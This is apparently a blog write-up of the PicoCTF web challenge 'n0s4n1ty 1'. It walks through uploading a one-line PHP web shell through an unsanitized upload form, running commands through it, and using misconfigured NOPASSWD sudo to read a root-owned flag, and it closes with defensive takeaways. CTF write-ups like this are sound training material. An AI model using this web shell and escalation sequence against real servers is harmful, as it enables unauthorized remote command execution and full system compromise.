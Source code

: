 ```yaml
---
title: 'n0s4n1ty 1 - A PicoCTF Challenge'
description: 'A hands-on walkthrough of exploiting a file upload vulnerability to gain remote command execution and escalate to root.'
pubDate: 'Jun 04 2025'
heroImage: '/blog-placeholder-2.jpg'
categories: ["CTF", "PicoCTF", "Web Exploitation"]
---
```


## 🥧 Challenge Overview

**n0s4n1ty 1** is a web exploitation challenge focused on file upload vulnerabilities. The hint suggests that the upload function isn’t properly sanitized, and that we should check `sudo -l` once we get shell access.

We’re given a web interface with a basic file upload form:

<img src="/n0s4n1ty-1/webview.png" alt="n0s4n1ty 1 Challenge" style={{ width: "100%" }} />

The objective: upload a file to get a shell on the server and escalate privileges to read the flag.

---

## 🧩 Exploitation Steps

### 1. Test the Upload Feature

We start by uploading a benign image file (e.g., `.jpg` or `.png`) to test how the app handles file extensions.

<img src="/n0s4n1ty-1/upload-jpg.png" alt="n0s4n1ty JPG Upload" style={{ width: "100%" }} />

It successfully uploads and shows us the storage path:

```
uploads/7aa3640aed08fd4572f0a38c0dd56846.jpg
```

<img src="/n0s4n1ty-1/jpg-upload-results.png" alt="n0s4n1ty Upload Success" style={{ width: "100%" }} />
<img src="/n0s4n1ty-1/jpg-upload-paths.png" alt="n0s4n1ty JPG Uploaded" style={{ width: "100%" }} />

This confirms that we can access uploaded files directly.

---

### 2. Upload a PHP Shell

Next, we upload a PHP file with a simple web shell:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

We name it `payload.php` and upload it like before.

<img src="/n0s4n1ty-1/php-uploaded.png" alt="n0s4n1ty PHP Upload" style={{ width: "100%" }} />

---

### 3. Confirm Code Execution

We navigate to the file:

```
http://<host>/uploads/payload.php
```

At first, it throws:

```
Warning: shell_exec(): Cannot execute a blank command...
```

This confirms the shell is working.

To list files:

```
http://<host>/uploads/payload.php?cmd=ls
```

Output:

```
7aa3640aed08fd4572f0a38c0dd56846.jpg payload.php
```

We now have remote command execution.

---

### 4. Check for Sudo Access

Let’s run `sudo -l` to see if we can escalate:

```
http://<host>/uploads/payload.php?cmd=sudo+-l
```

It returns:

```
User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

This means we can run any command as any user — no password required. Full root access is possible.

---

### 5. Access the `/root` Directory

With root privileges, we try listing `/root`:

```
http://<host>/uploads/payload.php?cmd=sudo+ls+-la+/root
```

And we see:

```
flag.txt
```

---

### 6. Read the Flag

Now, we grab the flag directly:

```
http://<host>/uploads/payload.php?cmd=sudo+cat+/root/flag.txt
```

<img src="/n0s4n1ty-1/flag.png" alt="n0s4n1ty Flag" style={{ width: "100%" }} />

Mission complete.

---

## 🧠 Final Thoughts

This challenge walks us through a classic case of unvalidated file uploads — a critical and common vulnerability in web apps. Combined with dangerous `sudo` misconfigurations, it’s a reminder that small oversights in development can lead to full system compromise.

Key takeaways:
- Always validate and sanitize uploaded files
- Never grant NOPASSWD sudo access to untrusted services
- Basic PHP shells are still effective in controlled CTF scenarios

---

## 🔗 Challenge Link

[n0s4n1ty 1 | PicoCTF Challenge](https://play.picoctf.org/practice/challenge/482)
